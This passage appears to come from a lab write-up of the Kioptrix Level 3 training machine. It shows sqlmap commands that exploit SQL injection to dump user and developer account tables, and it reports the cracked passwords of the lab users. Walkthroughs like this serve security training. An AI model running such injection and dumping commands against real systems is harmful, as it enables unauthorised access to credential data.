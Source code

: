 ```bash
# Dump 'dev_accounts' table content
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery -T dev_accounts --dump --output-dir=sqlmap
```

![SQL Injection|600](images/vulnhub-kioptrix-lvl3/sql-injection-4.png)

The `dev_accounts` table contains the password hashes of `dreg` and `loneferret`. Using `sqlmap` build-in wordlist the passwords were cracked. The values as `Mast3r` and `starwars`.

```bash
# Dump 'gallarific_users' table content
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery -T gallarific_users --dump --output-dir=sqlmap
```
